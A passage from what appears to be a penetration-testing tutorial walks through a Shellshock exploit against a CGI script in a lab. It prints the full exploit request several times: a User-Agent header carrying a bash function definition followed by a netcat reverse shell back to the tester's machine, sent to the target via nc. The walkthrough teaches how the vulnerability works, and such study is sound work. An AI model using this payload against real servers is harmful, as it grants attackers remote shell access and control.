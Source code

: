 Here, we’re specifying the HTTP protocol version we’re using, adding a
return & newline, and then specifying an empty user agent string. Up to
now, we’ve been setting up the attack, but now we’re going to pivot to
the exploit:

  "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: **() { :;};** /usr/bin/nc 192.168.64.10 443 -e /bin/sh\\r\\nHost: vulnerable\\r\\nConnection: close\\r\\n\\r\\n"
  ------------------------------------------------------------------------------------------------------------------------------------------------------------------

We’re in the beating heart of the vulnerability!

-   We declare a BASH environment variable with **().**

-   We add an empty body for the function with **{ :;}; Any commands
    that come after this gets executed by the server.**

  "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () { :;}; **/usr/bin/nc 192.168.64.10** 443 -e /bin/sh\\r\\nHost: vulnerable\\r\\nConnection: close\\r\\n\\r\\n"
  ------------------------------------------------------------------------------------------------------------------------------------------------------------------

And now we’re in the exploit- we’re specifying that we want the server
to execute **/usr/bin/nc** (netcat) when the environment variable is
imported. We’re telling the server:

-   to spawn a NC command

-   tell NC on the server to connect back to our pentesting laptop’s ip
    address (192.168.64.10) on port 443.

-   pass anything that it receives from our pentesting netcat session to
    a program called /bin/sh.

This allows us to execute commands on the webserver. Then we close out
the request with a Host header, which is required to complete the HEAD
request. Then the double \\r\\n is a carriage return&newline
combination.

Remember how we set up our catcher’s glove with netcat? The server’s
about to throw the ball at us. This is the end of the string we are
using with ECHO section, so let’s go back to the original command and
read the rest of it:

  echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () { :;}; /usr/bin/nc \[PenTest\_IP\] 443 -e /bin/sh\\r\\nHost: vulnerable\\r\\nConnection: close\\r\\n\\r\\n" **| nc 192.168.64.210 80**
  ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

The unix pipeline operator **|** chains multiple commands together.
We’re taking the output of the echo command (which would normally be
printing what we just wrote) and piping it into the **nc** command
running on the local pentesting workstation. We pass the ip address of
the target web server (192.168.64.210) to NC in order pass the exploit
string to the server which, if successful, proves the vulnerability.

That was a lot of kung fu, but the end result is that the webserver will
receive a series of packets.

When the sever processes them, it will connect back to our pentesting
workstation, giving us a shell that we can execute commands against. We
are ready to check if our attack worked.
